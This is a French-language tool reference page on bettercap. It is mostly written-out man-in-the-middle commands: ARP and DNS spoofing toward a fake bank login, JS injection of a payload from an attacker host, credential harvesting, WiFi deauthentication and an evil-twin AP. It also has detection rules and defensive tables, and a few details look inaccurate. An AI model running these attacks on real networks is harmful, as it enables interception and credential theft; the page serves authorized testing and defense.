

# bettercap — Wireless & Réseau

> [!info] **En 1 phrase**
> Framework de **MITM (Man-in-The-Middle)** moderne : spoofing ARP, reniflage de trafic, proxy HTTP(S), **spoofing DNS**, caplets, modules BLE/802.15.4 et interface web — le couteau suisse du pentest réseau local.

---

## Overview

| Champ | Valeur |
|---|---|
| Nom complet | bettercap |
| Description | Framework modulaire de reconnaissance et d'attaque réseau (IPv4/IPv6, WiFi, BLE, HID, CAN-bus) avec MITM complet, reniflage, injection et interface web |
| Catégorie | Wireless & Réseau |
| Sous-catégorie | Attaque réseau local & MITM (ARP/DNS/HTTP), modules radio (WiFi/BLE/802.15.4) |
| Fonction principale | Empoisonnement ARP, sniffing réseau, proxy HTTP(S), spoofing DNS, récolte de credentials, attaques WiFi et Bluetooth |
| Type d'outil | Framework (binaire unique avec modules dynamiques + UI web + CLI interactive) |
| Licence | GPL-3.0 |
| Open source / propriétaire | Open source |
| Langage(s) de programmation | Go (100 %), gopacket pour l'analyse de paquets |
| Développeur / organisation | Simone Margaritelli « evilsocket » (fondateur) et communauté bettercap |
| Projet officiel | bettercap project |
| Dépôt officiel | https://github.com/bettercap/bettercap |
| Documentation officielle | https://www.bettercap.org/ |
| Date de création | 2015 (1.0) ; réécriture 2.x en 2018 |
| État du projet | actif (19,8 k stars, 57 releases, dernier tag v2.41.7) |
| Dernière version connue | v2.41.7 (11 mai 2026) |
| Systèmes compatibles | GNU/Linux, BSD, Android, macOS, Windows (précompilés Darwin arm64, Linux amd64, Windows amd64) |

> [!note] Pour vérifier / compléter
> Les versions de modules et caplets évoluent vite : vérifier `bettercap -version` et `update.check on` après installation. Le fork `bettercap/website` et le changelog GitHub restent la référence.

---

## Concept

`bettercap` a été conçu par Simone Margaritelli pour remplacer la vieille stack `ettercap` (dont la maintenabilité s'était dégradée) par une **binaire unique en Go**, portable, extensible par modules et pilotable par une console interactive. Le cœur du concept : chaque capacité est un **module** (`net.probe`, `net.sniff`, `arp.spoof`, `dns.spoof`, `http.proxy`, `https.proxy`, `wifi.*`, `ble.*`, `canbus.*`, `hid.*`…) activable/désactivable à la volée, le tout orchestré depuis un shell avec autocomplétion ou des **caplets** (scripts textuels réutilisables, façon interact script). Une **API REST** et une **interface web** (`http-ui`) permettent la supervision distante.

Dans un pentest, il couvre la phase d'**attaque réseau local** : l'attaquant se repositionne entre une victime et sa passerelle via `arp.spoof`, capture le trafic (`net.sniff`), rabote le HTTPS (`https.proxy` + SSLstrip), redirige le DNS (`dns.spoof`) et injecte du contenu (`http.proxy`). Sa valeur repose sur le fait qu'**aucun driver particulier** n'est requis pour les attaques IP (à la différence du WiFi qui impose le mode moniteur), ce qui en fait l'outil de MITM « universel » du réseau Ethernet et WiFi associe.

Il étend aussi l'écosystème radio : sniffing **BLE** (`ble.recon`, `ble.sniff`), **802.15.4/Zigbee** (`zigbee.*`), attaques WiFi (`wifi.deauth`, `wifi.ap`, capture PMKID avec `wifi.capture`), **HID injection** (`hid.*`) et **CAN-bus** (`canbus.*`, `can.obd2`) — d'où son surnom de « Swiss Army knife ».



---

## Concepts fondamentaux

| Concept | Explication |
|---|---|
| MITM (Man-in-The-Middle) | L'attaquant s'intercale entre la victime et la destination ; tout le trafic transite par lui (relais IP) |
| Empoisonnement ARP | Envoi de réponses ARP non sollicitées : la victime associe l'IP de la passerelle à la MAC de l'attaquant (`arp.spoof`) |
| Forwarding IP | Relais des paquets reçus vers la vraie destination ; `ip.forward on` (bettercap) ou `/proc/sys/net/ipv4/ip_forward=1` pour ne pas couper internet |
| Sniffing | Capture et analyse des paquets traversant l'interface ; `net.sniff` inspecte et extrait les credentials |
| Session hijacking / credentials | `net.creds` agrège les identifiants capturés (HTTP, FTP, SMTP, NTLM…) et les sessions |
| SSLstrip / HSTS | Downgrade HTTPS→HTTP en réécrivant les liens ; bloqué par HSTS moderne, mieux remplacé par l'injection de certs (`http.proxy` + CA custom) |
| Spoofing DNS | `dns.spoof` répond à la place du vrai serveur DNS pour rediriger des noms vers des IP choisies |
| Caplet | Script bettercap (`.cap`) enchaînant `set`/`on`/`off` pour reproduire des scénarios complets |
| Module | Sous-commande isolée de bettercap avec son propre état ; activable par `<module> on/off` |
| Rogue AP | `wifi.ap` crée un point d'accès malveillant (evil twin) à partir d'une carte WiFi |
| UI web / API REST | `http-ui` expose un tableau de bord https, `api.rest` expose l'état par JSON (auth par défaut `user:pass`) |
| BLE / 802.15.4 | Bluetooth Low Energy et Zigbee : reconnaissance, sniffing et attaques de périphériques radio |

---

## Installation

### Debian / Ubuntu / Kali Linux

```bash
sudo apt update && sudo apt install -y bettercap
# Kali : paquet présent par défaut ; vérifier la version
bettercap -version
```

### Arch Linux

```bash
sudo pacman -S bettercap
```

### Fedora / RHEL

```bash
sudo dnf install bettercap
```

### macOS

```bash
brew install bettercap
```

### Windows

```powershell
# Binaire précompilé dans les releases GitHub (Windows amd64)
# À lancer dans une console administrateur (Npcap requis pour le sniffing)
.\bettercap.exe -iface "Ethernet"
```

### Docker

```bash
docker pull bettercap/bettercap
# --net=host et --privileged pour l'accès réseau ; les modules radio (wifi.*, ble.*)
# ne fonctionnent PAS dans Docker (nécessitent un accès hardware direct)
docker run -it --privileged --net=host bettercap/bettercap -h
```

### Compilation depuis les sources

```bash
git clone https://github.com/bettercap/bettercap && cd bettercap
# Depuis les sources, privilégier le module Go :
go install github.com/bettercap/bettercap/v2@latest
# ou en binaire :
make build
```

> [!warning] Prérequis & problèmes potentiels
> - Dépendances système : `pkg-config`, `libpcap`, `libusb-1.0-0` (module HID), `libnetfilter-queue` (Linux, module `packet.proxy`).
> - Windows : l'analyse de paquets requiert **Npcap** ; les modules WiFi/BLE sont très limités.
> - Docker : `--privileged --net=host` indispensable ; pas de support des modules radio.

---

## Configuration

Les paramètres se définissent dans la console (`set <param> <valeur>`) ou dans des caplets (`.cap`) chargés avec `-caplet` ou `-eval`. L'historique des commandes est sauvegardé ; `update.check on` vérifie la présence de nouvelles versions.

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `arp.spoof.targets` | IP des victimes (ou vide = tout le réseau) | IP, CIDR, `;` pour plusieurs | Réduit le bruit de l'attaque | `set arp.spoof.targets 192.168.1.42` |
| `arp.spoof.fullduplex` | Empoisonne victime ET passerelle | true/false | Bidirectionnel : trafic aller et retour | `set arp.spoof.fullduplex true` |
| `net.sniff.verbose` | Affiche chaque paquet analysé | true/false | Bruit mais debugging facile | `set net.sniff.verbose true` |
| `net.sniff.filter` | Filtre BPF sur le sniffing | chaîne BPF | Ne capture qu'un sous-ensemble | `set net.sniff.filter "tcp port 80 or port 443"` |
| `dns.spoof.domains` | Domaines à rediriger | `*`, liste séparée par `,` | `*` = tout le DNS | `set dns.spoof.domains login.bank.com` |
| `dns.spoof.address` | IP vers laquelle rediriger | IP | Cible du phishing | `set dns.spoof.address 192.168.1.66` |
| `http.proxy.script` | Script JS exécuté dans le proxy | chemin | Injection systématique | `set http.proxy.script /tmp/inject.js` |
| `https.proxy.sslstrip` | Downgrade HTTPS→HTTP | true/false | Contournement HSTS partiel | `set https.proxy.sslstrip true` |
| `http-ui.ssl-cert` | Certificat HTTPS de l'UI | chemin | Sécurise la console web | `set http-ui.ssl-cert server.pem` |
| `http-ui.username/password` | Auth de l'UI/API | user/pass | Protège l'accès (défaut user/pass) | `set http-ui.username admin` |

---

## Architecture interne

bettercap est un **binaire Go unique** dont le cycle de vie est orchestré par le noyau (`core/`), la session (`session/`) et un moteur d'événements. Au démarrage :

1. **Session** — résout l'interface (`-iface`), identifie le réseau, l'IP et la passerelle via des probes ARP/IPv6/UDP.
2. **Modules** — enregistrés auprès de la session (`modules/`). Chaque module expose des commandes (`<module> on/off`, `set <module>.<param>`) et consomme/produit des **événements** via un bus asynchrone (utilisé par `events.stream`, l'API REST et l'UI web).
3. **Réseau** — capture raw via `gopacket` (libpcap sur Linux/Windows, pcap sur macOS) : les paquets traversent `net.sniff` qui décode les protocoles (HTTP, FTP, SMTP, POP, IMAP, NTLM, JWT…) pour extraire des credentials.
4. **MITM** — `arp.spoof` injecte des paquets ARP falsifiés ; le relais du trafic repose sur le forwarding IP activé par `ip.forward on` (bettercap manipule `/proc/sys/net/ipv4/ip_forward` via la firewall abstraction).
5. **Proxies** — `http.proxy`/`https.proxy`/`tcp.proxy`/`udp.proxy`/`packet.proxy` interceptent les flux : réécriture, injection de scripts JS, downgrade, log des requêtes.
6. **Modules radio** — `wifi.*` pilote les cartes compatibles mode moniteur (nl80211), `ble.*` utilise HCI/GATT, `canbus.*` un adaptateur CAN, `hid.*` du HID-USB.
7. **Sémantique de commande** : `set` stocke des paramètres typés ; `on/off` démarre/arrête ; `show` affiche l'état ; `-eval` exécute des commandes au lancement ; les **caplets** sont des fichiers `.cap` dans `~/.local/share/bettercap/caplets/` (téléchargés avec `caplets.update`).

Les données (hosts, sessions, credentials, événements) sont tenues en mémoire dans la session et exposées en JSON via `api.rest` sur `localhost` (port 80/443), ainsi que par l'UI web.

---

## Commandes

### Commandes principales

```bash
sudo bettercap -iface eth0 -caplet net-sniff
sudo bettercap -iface wlan0 -eval "wifi.recon on; wifi.show"
```

| Commande | Objectif | Résultat attendu |
|---|---|---|
| `net.probe on` | Probes ARP/UDP/mDNS/SSDP pour découvrir les hôtes | Liste des MAC/IP vues en quelques secondes |
| `net.recon on` | Surveillance continue du segment (OS, ports, hostnames) | Table d'hôtes enrichie en temps réel |
| `net.show` | Afficher les hôtes découverts | Tableau IP / MAC / vendor / hostname |
| `net.sniff on` | Capture et analyse passive du trafic | Logs de sessions et credentials dans `net.creds` |
| `net.creds` | Lister les credentials capturées | Sortie structurée (proto, user, pass, source) |
| `arp.spoof on/off` | Activer/stopper l'empoisonnement ARP | MITM actif / restauration des tables ARP |
| `dns.spoof on` | Répondre des IP arbitraires pour les domaines configurés | Redirection DNS des victimes |
| `http.proxy on` | Proxy HTTP avec injection HTML/JS | Contenu modifié à la volée |
| `https.proxy on` | Proxy HTTPS (MITM par certificats) + SSLstrip | Downgrade et déchiffrement |
| `http-ui on` | Interface web (https://\<ip\>:80) | Tableau de bord des hosts/sessions |
| `api.rest on` | API REST (JSON) sur le port local | Accès automatisé à l'état |
| `wifi.recon on` | Scan WiFi (channels, clients, PMKID) | Liste des AP et clients |
| `wifi.deauth <BSSID>` | Déauthentifier un AP ou client | Clients déconnectés |
| `ble.recon on` / `ble.show` | Scan BLE / affichage | Périphériques BLE détectés |
| `ticker on` | Exécuter des commandes périodiquement | Automatisation (ex. `set ticker.commands ...`) |

### Commandes avancées

```bash
# MITM + sniffing + proxy, sans UI, log dans un fichier
sudo bettercap -iface eth0 -eval "net.sniff on; arp.spoof on; http.proxy on" -log /tmp/mitm.log

# Scénario complet via caplet (réutilisable et versionnable)
sudo bettercap -iface eth0 -caplet sniff-spoof

# Mode « headless » pour l'intégration : sortie JSON par l'API REST
sudo bettercap -iface eth0 -eval "net.probe on; api.rest on"
curl http://127.0.0.1/api/session -u user:pass | jq .
```

---

## Options et flags

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| `-iface <name>` | Interface réseau à utiliser (obligatoire) | `bettercap -iface eth0` | Basic |
| `-eval <cmd>` | Exécuter des commandes au démarrage | `-eval "net.sniff on"` | Basic |
| `-caplet <name>` | Charger un caplet (nom ou chemin) | `-caplet net-sniff` | Basic |
| `-log <file>` | Journaliser toute la sortie | `-log /tmp/bc.log` | Intermediate |
| `-no-colors` | Désactiver les couleurs (logs/CI) | `-no-colors -log out.txt` | Intermediate |
| `-gateway / -net` | Forcer la passerelle / le réseau (environnements sans DHCP) | `-gateway 192.168.1.1 -net 192.168.1.0/24` | Advanced |
| `-no-history` | Désactiver l'historique de console | `-no-history` | Advanced |
| `-env` | Charger la configuration depuis des variables d'environnement | `-env` (par ex. `BC_...`) | Expert |
| `-http-ui` / `-api-rest` | Activer directement l'UI/API au démarrage | `-http-ui` | Expert |
| `-pcapdump <file>` | Dumper tous les paquets (capture raw) | `-pcapdump cap.pcap` | Expert |

> [!tip] Options les plus utiles au quotidien
> - `-iface` est **obligatoire** — l'oublier provoque une erreur de session.
> - `-eval` permet d'enchaîner `set`/`on`/`off` en une ligne : setups reproductibles.
> - `-caplet net-sniff` (caplet officiel) donne un MITM complet prêt à l'emploi.
> - `-log` indispensable pour relire ce qui s'est passé ou parser avec `jq`.

---

## Exemples pratiques

### Beginner

```bash
# Objectif : cartographier le réseau local en 30 secondes
sudo bettercap -iface eth0 -eval "net.probe on; sleep 5; net.show"

# Objectif : MITM minimal + sniffing des credentials
sudo bettercap -iface eth0 -caplet net-sniff
# Dans la console :
#   arp.spoof on
#   net.sniff on
#   net.creds
```

Résultat attendu : la liste des hôtes (IP/MAC/vendor), puis un flux de sessions HTTP capturées. Erreur fréquente : lancer sans `sudo` (permission packet capture refusée).

### Intermediate

```bash
# Objectif : rediriger une victime vers une fausse page de login
sudo bettercap -iface eth0 -eval "set arp.spoof.targets 192.168.1.42; set dns.spoof.domains login.bank.com; set dns.spoof.address 192.168.1.66; arp.spoof on; dns.spoof on; http.proxy on"

# Objectif : capturer le trafic HTTPS (MITM par certificats) pour analyse
sudo bettercap -iface eth0 -eval "set net.sniff.filter 'tcp port 443'; https.proxy on; arp.spoof on"
# L'attaquant doit servir sa CA dans le store de confiance de la victime pour éviter l'avertissement
```

### Advanced

```bash
# Objectif : injection de script JS dans toutes les pages HTTP de la victime
sudo bettercap -iface eth0 -eval "set arp.spoof.targets 192.168.1.42; set http.proxy.script /tmp/inject.js; arp.spoof on; http.proxy on"
# /tmp/inject.js : chaque réponse HTML reçoit un <script src="http://attacker/payload.js"></script>

# Objectif : capture WiFi PMKID + deauth ciblé
sudo bettercap -iface wlan0 -eval "wifi.recon on; wifi.assoc all; wifi.show"
```

### Expert

```bash
# Objectif : atelier automatisé et rejouable via caplet maison
cat > ~/.local/share/bettercap/caplets/assess.cap <<'EOF'
set arp.spoof.targets 192.168.1.0/24
set net.sniff.verbose true
net.probe on
net.sniff on
arp.spoof on
http.proxy on
ticker on
EOF
sudo bettercap -iface eth0 -caplet assess -log /tmp/assess.log

# Objectif : récupérer l'état en JSON pour un pipeline de reporting
sudo bettercap -iface eth0 -eval "net.recon on; api.rest on"
curl -s -u user:pass http://127.0.0.1/api/session | jq '.session.hosts'
```

---

## Workflow complet (scénario pas à pas)

**Scénario : MITM complet sur un client pour récolter ses identifiants.**

1. **Préparer l'environnement** — vérifier l'interface et le forwarding :
   ```bash
   sudo sysctl -w net.ipv4.ip_forward=1
   sudo bettercap -iface eth0
   ip.forward on
   ```
2. **Cartographier le réseau** pour identifier la cible :
   ```text
   net.probe on
   net.show
   ```
3. **Cibler la victime** (`192.168.1.42`) et lancer le MITM + sniffing :
   ```text
   set arp.spoof.targets 192.168.1.42
   arp.spoof on
   net.sniff on
   http.proxy on
   ```
4. **Collecter** — l'utilisateur visite un site HTTP → les credentials apparaissent :
   ```text
   net.creds
   ```
5. **Nettoyer le réseau** après le test (restauration des tables ARP) :
   ```text
   arp.spoof off
   net.sniff off
   ```

---

## Scénarios avancés

### Scénario 1 : Spoofing DNS vers une fausse page de login

Rediriger les requêtes DNS d'un domaine ciblé vers un serveur de phishing local.

```text
set arp.spoof.targets 192.168.1.42
set dns.spoof.domains login.bank.com
set dns.spoof.address 192.168.1.66
arp.spoof on
dns.spoof on
http.proxy on
```

La victime tape `login.bank.com` → son DNS pointe vers `192.168.1.66` où tourne le faux portail (par ex. [[Outil - Wifiphisher]] ou un serveur custom). `http.proxy` injecte le payload JS dans les réponses HTTP.

### Scénario 2 : Reconnaissance Bluetooth BLE

Cartographier les périphériques BLE d'un bâtiment (serrures, capteurs, badges) :

```text
ble.recon on
ble.show
# Suivre la connexion d'un périphérique précis (adresse MAC)
set ble.conn.address AA:BB:CC:DD:EE:FF
ble.conn on
```

### Scénario 3 : Attaque WiFi ciblée (deauth + capture PMKID)

```text
set wifi.interface wlan0
wifi.recon on
wifi.show
# Déauthentifier tous les clients de l'AP ciblé pour forcer la reconnexion
wifi.deauth AA:BB:CC:DD:EE:FF
# Déclencher une association pour capturer le PMKID
wifi.assoc all
```

---

## Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Reconnaissance | `net.probe`, `net.recon`, `net.show` (cartographie), `wifi.recon` (AP/clients) |
| Énumération | Détection d'hôtes, OS fingerprinting, ports visibles, hostnames |
| Exploitation / Credential access | `arp.spoof` + `net.sniff` + `net.creds` : interception de sessions et identifiants |
| Attaque réseau (AiTM) | ARP/DNS spoofing, SSLstrip, injection HTTP, proxy |
| Post-exploitation (pivot) | Session MITM pour relayer des attaques (NTLM relay, phishing) |
| Attaques radio | WiFi (deauth, PMKID), BLE, Zigbee, CAN-bus, HID injection |
| Analyse forensique | `-pcapdump` capture complète pour analyse dans [[Outil - Wireshark]] |

---

## MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Collection | Network Sniffing | T1040 | `net.sniff` capture le trafic et les credentials du segment | Suricate/Snort : alertes sur ARP anomalies ; surveillance des `arptables` ; `arpwatch` | Segmentation, 802.1X, chiffrement (HTTPS/HSTS) |
| Collection / Credential Access | Adversary-in-the-Middle : LLMNR/NBT-NS Poisoning | T1557.001 | `llmnrs`/`nbns.spoof`/`mdns.spoof` empoisonnent les résolutions de noms | Logs DNS/LLMNR suspects, NTLM relay detection | Désactiver LLMNR/NBT-NS, WPAD off, SMB signing |
| Collection / Credential Access | Adversary-in-the-Middle : ARP Cache Poisoning | T1557.002 | `arp.spoof` empoisonne la table ARP pour MITM | ARP statique, DHCP snooping, alerte double MAC | 802.1X port security, VLAN, IPS |
| Collection | Data from Local System | T1005 | `net.creds` agrège et stocke les credentials capturées | DLP sur les logs, détection de sessions | Politique de mot de passe, MFA |
| Initial Access | Valid Accounts (via phishing MITM) | T1078 | Credentials volées réutilisées pour l'accès initial | Détection d'usages anormaux, account monitoring | MFA, detection de phishing |
| Impact | Wi-Fi Disassociation (ICS) | T1466 | `wifi.deauth` déconnecte les clients d'un AP | WIDS/WIPS : spike de trames deauth | WIDS, 802.1X, WPA3/SAE |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> T1557 (AiTM) est l'association centrale de bettercap : l'emporation ARP/DNS et la récolte de credentials en découlent directement.

---

## Defensive Security

### Signes observables

| Indicateur | Détail |
|---|---|
| Double réponses ARP / MAC changeante pour la passerelle | Empoisonnement ARP actif (MAC de l'attaquant) |
| Latence réseau anormale, micro-coupures | Relais MITM en place (forwarding logiciel) |
| Trafic HTTP en clair sur le segment | Proxy `http.proxy` injecte du contenu |
| Certificats TLS suspects / erreurs de certificat | `https.proxy` sert une CA custom |
| Connexions vers IP du faux DNS | `dns.spoof` redirige les résolutions |
| Ports ouverts atypiques sur un hôte | UI web (80/443) ou API REST de bettercap |
| Spike de trames de désauthentification | `wifi.deauth` actif (détectable par WIDS) |

### Règles de détection (Sigma / Suricata / Snort / YARA)

```yaml
# Exemple Sigma : empoisonnement ARP (double réponses pour la même IP)
title: ARP Poisoning / MITM bettercap
id: 9c3b1a1e-0001-4b00-8000-000000000001
status: experimental
description: Détection d'empoisonnement ARP via analyse des paquets ARP
logsource:
  category: network_connection
  product: suricata
detection:
  selection:
    event_type: alert
    alert.signature|contains: "ARP"
  condition: selection
level: medium
```

```bash
# Exemple Suricata/Snort : réponse ARP anormale (même IP, MAC différente en rafale)
alert arp any any -> any any (msg:"Possible ARP spoofing bettercap"; arp.opcode:reply; classtype:attempted-recon; sid:1000001; rev:1;)
```

---

## Automatisation

```bash
# Lancement headless + polling de l'API REST
sudo bettercap -iface eth0 -eval "net.recon on; api.rest on; http-ui on" &
sleep 10
curl -s -u user:pass http://127.0.0.1/api/session | jq '.session.hosts[] | {ip, mac, vendor}'
```

```python
#!/usr/bin/env python3
# Objectif : récupérer les credentials capturées par bettercap depuis l'API
import json
import urllib.request

req = urllib.request.Request(
    "http://127.0.0.1/api/session",
    headers={"Authorization": "Basic dXNlcjpwYXNz"},  # user:pass (défaut)
)
with urllib.request.urlopen(req) as resp:
    data = json.load(resp)
for cred in data["session"]["credentials"]:
    print(cred.get("protocol"), cred.get("user"), cred.get("password"))
```

---

## Output et parsing

bettercap produit un **stdout interactif** (TUI) et des **événements JSON** consommables via l'API REST (`http://127.0.0.1/api/session`, `api/events`, `api/session/hosts`…). `-pcapdump` génère un **pcap** analysable dans [[Outil - Wireshark]] / [[Outil - tshark]] ; `-log` journalise tout en texte.

```bash
# Extraire les hosts et credentials au format JSON
curl -s -u user:pass http://127.0.0.1/api/session | jq -r '.session.hosts[] | "\(.ip)\t\(.mac)\t\(.vendor)"'
curl -s -u user:pass http://127.0.0.1/api/session | jq -r '.session.credentials[] | "\(.protocol):\(.user):\(.password)"'
```

```python
# Exemple de parsing d'un dump pcap capturé par bettercap
# En CLI, tshark suffit :
#   tshark -r mitm.pcap -Y "http.request" -T fields -e http.host -e http.request.uri
```

---

## Intégrations

```text
bettercap (MITM) → pcapdump → Wireshark / tshark → analyse forensique
bettercap (creds) → API REST → SIEM / ELK / scripts de reporting
bettercap (wifi.deauth) → aircrack-ng / hcxdumptool → crack hors-ligne
bettercap (dns.spoof) → Wifiphisher / site de phishing → récolte
```

- [[Tools| Outils]]
- [[Outil - tshark]] · [[Outil - Wireshark]] — analyse des captures
- [[Outil - aircrack-ng]] · [[Outil - hcxdumptool]] — attaques WiFi complémentaires
- [[Outil - Wifiphisher]] — evil twin / rogue AP en appui du MITM
- [[Outil - Metasploit]] — exploitation des sessions volées

---

## Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| ettercap | Léger, historique, GUI | Maintenu à minima, stack vieillissante | MITM simple, pédagogie |
| Ettercap NG (forks) | Filtres de contenu puissants | Fragmentation | Audit legacy |
| arpspoof + tcpdump | Minimaliste, controllable à la main | Pas de framework, manuel | Scripts bas niveau |
| mitmproxy | Excellent MITM HTTP(S), scripting Python | Pas d'ARP/DNS, ne fait pas le réseau | Analyse applicative TLS |
| Responder | Spécialisé LLMNR/NBT-NS/NTLM | Mono-protocole | [[Techniques/LLMNR-NBT-NS Poisoning]] |

> **Quand utiliser bettercap plutôt qu'ettercap ?** Bettercap est la référence moderne : actif, modulaire, avec UI web/API et modules radio ; ettercap ne se justifie plus que dans des contextes legacy.

---

## Performance

- Binaire Go **statique**, démarrage quasi instantané, empreinte mémoire modérée (souvent < 100 Mo selon le nombre de sessions).
- Sniffing **passif** : coût CPU proportionnel au trafic analysé ; `net.sniff.filter` (BPF) réduit fortement la charge.
- `arp.spoof` génère un faible volume de paquets ; l'empoisonnement `fullduplex` double les réponses.
- Le proxy HTTP(S) est le module le plus coûteux (réécriture à la volée) ; prévoir un CPU correct pour un segment chargé.
- Les modules radio (wifi/ble) sont limités par le driver et la bande passante radio, pas par le processeur.
- Aucun chiffre officiel de débit publié : les limites réelles dépendent de la carte et du trafic.

---

## Troubleshooting

### Common problems

#### Problème : « No interface specified » / session échoue

- **Cause** : `-iface` manquant ou nom d'interface erroné.
- **Solution** : lister les interfaces (`ip link`, `ipconfig /all`) et passer `-iface <nom>`.
- **Vérification** : `bettercap -iface eth0` démarre sans erreur.

#### Problème : la victime perd internet dès `arp.spoof on`

- **Cause** : forwarding IP désactivé — bettercap ne relaie plus les paquets.
- **Solution** : `ip.forward on` (bettercap) ou `sysctl -w net.ipv4.ip_forward=1`.
- **Vérification** : la victime ping la passerelle pendant le MITM.

#### Problème : permission denied / capture impossible

- **Cause** : manque de privilèges (raw socket / libpcap).
- **Solution** : lancer avec `sudo` (ou configurer des capabilities `cap_net_raw`).
- **Vérification** : `sudo bettercap -iface eth0` n'affiche plus d'erreur de capture.

#### Problème : HTTPS illisible malgré `https.proxy on`

- **Cause** : la victime vérifie le certificat (HTTPS natif) ; SSLstrip échoue sur HSTS.
- **Solution** : installer la CA de bettercap dans le trust store de la victime (test autorisé), ou cibler des sites sans HSTS ; sinon passer par `http.proxy` sur les flux HTTP.
- **Vérification** : `net.sniff.verbose true` montre les flux HTTPS déchiffrés.

#### Problème : `wifi.deauth` ne fonctionne pas

- **Cause** : carte incompatible (driver sans injection/moniteur) ou mauvais BSSID.
- **Solution** : vérifier le chipset (`airmon-ng`), les drivers nl80211 ; préciser le BSSID correct.
- **Vérification** : `wifi.recon on` puis `wifi.show` liste l'AP correctement.

---

## Sécurité de l'outil

- bettercap doit s'exécuter en **root** (ou avec capabilities réseau) : surface d'attaque élevée si compromis.
- **Ne jamais le déployer sans contrôle** : `arp.spoof` + sniffing impactent tout le segment et peuvent servir à des tiers malveillants.
- L'UI web et l'API REST utilisent par défaut un **login faibles** (`user:pass`) — changer impérativement (`set http-ui.username`, `set http-ui.password`, `set api.rest.username`) en environnement contrôlé.
- L'API REST ne doit pas être exposée sur une interface publique (bind localhost par défaut).
- Logs et captures (`-log`, `-pcapdump`) contiennent des données sensibles (credentials, trafic) : les chiffrer et les détruire après usage.
- bettercap ne fait pas de téléchargement silencieux ; `caplets.update` et `update.check on` contactent les serveurs officiels (télémétrie minimale, à connaître en environnement air-gapped).
- Usage restreint à des environnements autorisés : toute interception de trafic sans consentement est illégale.

---

## Limitations

- **Ne déchiffre pas le HTTPS** par magie : il faut installer la CA dans le trust store de la victime ou cibler des flux HTTP/HSTS absents.
- **SSLstrip** inefficace face aux navigateurs modernes appliquant HSTS (préload) : la récolte passe par le MITM certs ou les réseaux Wi-Fi ouverts.
- **Détection aisée** : ARP spoofing visible par `arpwatch`, DHCP snooping, WIDS ; le trafic relais ajoute de la latence.
- Le sniffing dépend des **drivers/pcap** : sur macOS la capture est plus limitée, sur Windows le module radio est quasi inexistant.
- Les modules **WiFi/BLE/CAN/HID** exigent du matériel dédié (mode moniteur, dongles USB, adaptateurs CAN) ; non fonctionnels sous Docker.
- Pas de support natif de WPA3/SAE offline : les attaques WiFi se limitent à deauth/PMKID WPA2 et aux WPS.
- Le framework est orienté réseau local : inutile à distance sans un accès réseau préalable.

---

## Cheatsheet

```bash
# Découverte des hôtes
sudo bettercap -iface eth0 -eval "net.probe on; sleep 5; net.show"

# MITM + sniffing + credentials
sudo bettercap -iface eth0 -caplet net-sniff
#   arp.spoof on
#   net.sniff on
#   net.creds

# MITM ciblé + proxy HTTP
sudo bettercap -iface eth0 -eval "set arp.spoof.targets 192.168.1.42; arp.spoof on; http.proxy on"

# Spoofing DNS
sudo bettercap -iface eth0 -eval "set dns.spoof.domains *.example.com; set dns.spoof.address 192.168.1.66; dns.spoof on"

# Rogue AP (evil twin) - interface WiFi
sudo bettercap -iface wlan0 -eval "set wifi.ap.ssid FakeAP; wifi.ap on"

# Scan WiFi + deauth
sudo bettercap -iface wlan0 -eval "wifi.recon on; wifi.show; wifi.deauth AA:BB:CC:DD:EE:FF"

# BLE recon
sudo bettercap -iface hci0 -eval "ble.recon on; ble.show"

# Capture complète + log pour forensics
sudo bettercap -iface eth0 -pcapdump /tmp/mitm.pcap -log /tmp/mitm.log

# API REST (pipeline)
curl -s -u user:pass http://127.0.0.1/api/session | jq '.session.hosts'
```

---

## Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | Framework de MITM et de reconnaissance réseau (ARP/DNS/HTTP, WiFi, BLE, CAN) en une binaire |
| **Quand l'utiliser ?** | Pentest réseau local : interception de trafic, récolte de credentials, tests Wi-Fi/BLE, red team |
| **Commande principale** | `sudo bettercap -iface eth0 -caplet net-sniff` |
| **Alternative principale** | ettercap (legacy) / mitmproxy (HTTP/S applicatif) |
| **Concepts importants** | ARP spoofing, forwarding IP, SSLstrip, caplets, net.sniff / net.creds, UI web + API REST |
| **Liens associés** | [[Techniques/ARP Spoofing et MITM\| ARP Spoofing]] · [[Outil - Wireshark]] · [[Outil - aircrack-ng]] |

---

## Détection & Défense

| Signe | Défense |
|---|---|
| Désynchronisation MAC→IP (double réponses ARP) | `arpwatch`, Wireshark (`arp.duplicate-request`), ARP statique |
| Latence anormale / MAC qui change | Surveillance de la table ARP, DHCP snooping |
| Trafic HTTP en clair intercepté | HSTS + HTTPS partout : le sniffing ne donne que des flux chiffrés |
| Certificats TLS invalides / CA custom | Contrôle des certificats, notification aux utilisateurs |
| Nouveaux périphériques sur le segment | 802.1X (port security), segmentation VLAN |
| Spike de deauth WiFi | WIDS/WIPS, WPA3/SAE, liste blanche des BSSID |

---

## Tips & Pièges

> [!tip] **Tips**
> - Privilégier les **caplets** officiels (`net-sniff`, `http-req-dump`, `sniff-spoof`…) pour des setups reproductibles. `bettercap -caplet -h` les liste.
> - Activer `ip.forward on` dès le lancement : évite de couper internet à la victime et rend l'attaque plus discrète.
> - Utiliser `-eval` pour enchaîner les commandes au démarrage et produire des setups propres.
> - Changer le mot de passe `user:pass` de l'UI/API avant toute session d'audit.
> - Coupler bettercap à `-pcapdump` pour garder une trace analysable dans Wireshark.

> [!warning] **Pièges**
> - `arp.spoof` casse la connexion de la victime si le **forwarding IP est désactivé** — vérifier `ip.forward on` dans bettercap (ou `/proc/sys/net/ipv4/ip_forward`) pour ne pas couper internet.
